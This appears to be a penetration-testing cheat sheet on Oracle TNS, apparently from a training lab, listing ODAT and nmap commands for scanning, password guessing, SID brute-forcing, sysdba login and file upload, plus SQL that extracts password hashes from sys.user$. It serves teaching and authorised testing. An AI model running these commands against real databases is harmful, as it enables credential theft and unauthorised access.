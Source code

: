 # Oracle TNS

## **Introduction**

> * Communication protocol that facilitates communication between Oracle databases and applications over networks
> * Solution for managing large, complex databases, typically in the healthcare, finance, and retail industries.
> * It has a built-in encryption mechanism that ensures the security of data transmitted.
> * Runs on TCP Port 1521 by default

***

## **Oracle TNS - Basic Commands**

| Command                                                                                        | Description                                                                                             |
| ---------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| python3 odat.py all -s \<FQDN/IP>                                                              | Perform a variety of scans to gather information about the Oracle database services and its components. |
| python3 odat.py passwordguesser -p1521 -d XE -s <FQDN/IP>					 | Perform scan for credentials (usernames/passwords)							   |
| sqlplus /@\<FQDN/IP>/                                                                          | Log in to the Oracle database.                                                                          |
| sqlplus username/password@10.129.204.235/XE as sysdba                                          | Log in to the Oracle database with sysdba privileges                                                    |
| python3 odat.py utlfile -s \<FQDN/IP> -d -U -P --sysdba --putFile C:\insert\path file.txt ./file.txt | Upload a file with Oracle RDBMS.                                                                        |
| sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute                           | Nmap SID Bruteforcing                                                                                   |

***

## **Oracle RDBMS Interaction Commands**

| Command                               | Description                                   |
| ------------------------------------- | --------------------------------------------- |
| select table\_name from all\_tables;  | List all available tables in current database |
| select name, password from sys.user$; | Extract password hashes                       |
| select * from user_role_privs;        | Extract usernames and their granted role      |

